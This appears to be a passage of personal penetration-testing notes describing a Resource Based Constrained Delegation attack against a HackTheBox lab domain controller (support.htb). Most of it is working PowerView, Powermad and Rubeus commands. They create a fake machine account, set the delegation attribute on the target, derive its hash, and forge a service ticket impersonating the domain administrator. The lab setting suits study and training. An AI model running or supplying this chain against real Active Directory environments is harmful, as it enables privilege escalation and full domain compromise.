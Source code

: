 ```
```
sudo ntpdate 10.129.42.194
```
- should sync time to machine, then run prior command
- make take multiple attempts

RBCD (Resource Based Constrained Delegation) Attack ^062636
- Requirements:
	- `SeMachineAccountPrivilege` shows enabled
		- `whoami /priv` to check current user
	- `Get-DomainObject -Identity 'DC=SUPPORT,DC=HTB' | select ms-ds-machineaccountquota`
		- shows quota, must be more than 0, default is 10
		- `. .\PowerView.ps1` required for commands
	- must be 2012+ DC
		- `Get-DomainController | select name,osversion | fl`
	- `msds-allowedtoactonbehalfofotheridentity` must be empty
		- `Get-DomainComputer DC | select name,msds-allowedtoactonbehalfofotheridentity | fl`
```
New-MachineAccount -MachineAccount 0xdfFakeComputer -Password $(ConvertTo-SecureString '0xdf0xdf123' -AsPlainText -Force)
```
- create fake computer
- requires `. .\Powermad.ps1`
```
$fakesid = Get-DomainComputer 0xdfFakeComputer | select -expand objectsid
```
- save SID as variable
	- check it saved with `$fakesid` command
```
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($fakesid))"
```
- creating ACL step 1: command creates raw security descriptor $SD with specific access control entries
```
$SDBytes = New-Object byte[] ($SD.BinaryLength)
```
- creating ACL step 2: creates new byte array $SDBytes with length equal to binary length of security descriptor
```
$SD.GetBinaryForm($SDBytes, 0)
```
- creating ACL step 3: converts $SD into binary form and stores in the byte array
```
Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```
- creating ACL step 4: applies security descriptor to the `msds-allowedtoactonbehalfofotheridentity` attribute of the target computer object
	- check it worked:
		- `$RawBytes = Get-DomainComputer DC -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity`
		- `$Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0`
		- `$Descriptor.DiscretionaryAcl`
			- will display `AccessAllowed` under AceType if worked
```
.\Rubeus.exe hash /password:0xdf0xdf123 /user:0xdfFakeComputer /domain:support.htb
```
- get hash of fake computer account labeled rc4_mac and put into next command:
```
.\Rubeus.exe s4u /user:0xdfFakeComputer$ /rc4:B1809AB221A7E1F4545BD9E24E49D5F4 /impersonateuser:administrator /msdsspn:cifs/dc.support.htb /ptt
```
- last base64 ticket listed should be for administrator
	- copy and save it to kali without spaces as `ticket.kirbi.b64`
```